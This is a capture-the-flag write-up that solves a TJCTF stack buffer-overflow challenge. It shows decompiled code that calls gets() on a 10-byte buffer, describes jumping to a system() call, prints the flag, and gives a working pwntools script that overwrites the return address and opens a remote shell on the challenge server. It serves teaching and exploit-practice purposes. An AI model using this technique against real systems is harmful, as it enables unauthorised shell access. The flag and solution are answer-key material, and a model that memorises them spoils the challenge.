



# TJCTF: binary

Written by KyleForkBomb

_I heard there's someone selling shells? They seem to be out of stock though..._

`nc p1.tjctf.org 8009`

## Beginnings

Starting the program will look like this: 
```sh
$ ./seashells
Welcome to Sally's Seashore Shell Shop
Would you like a shell?
yes!!!!!  <-- user input
why are you even here?
```

And the associated (stripped) decompiled code:
```c
int main() {
  char s1[0xA];
  puts("Welcome to Sally's Seashore Shell Shop");
  puts("Would you like a shell?");
  gets(s1);
  if ( !strcasecmp(s1, "yes") )
    puts("sorry, we are out of stock");
  else
    puts("why are you even here?");
  return 0;
}
```

This challenge is a classic buffer-overflow challenge. We take a look at `checksec` and gather our options:

<p align="center">

</p>

PIE's off, and we can notice this small `shell()` function embedded in the binary:

<p align="center">

</p> 
<p align="center">

</p> 


Although there are if-checks, we'll just jump over them and head straight for the `system()` call (address shown above):

<p align="center">

</p> 

That'll be the challenge.

## flag

`tjctf{she_s3lls_se4_sh3ll5}`

## code
```python
from pwn import *
binsh = 0x4006E3
to_r = 0xA+8
r = remote('p1.tjctf.org', 8009)
r.sendlineafter('?\n', to_r*'A' + p64(binsh))
r.interactive()
```
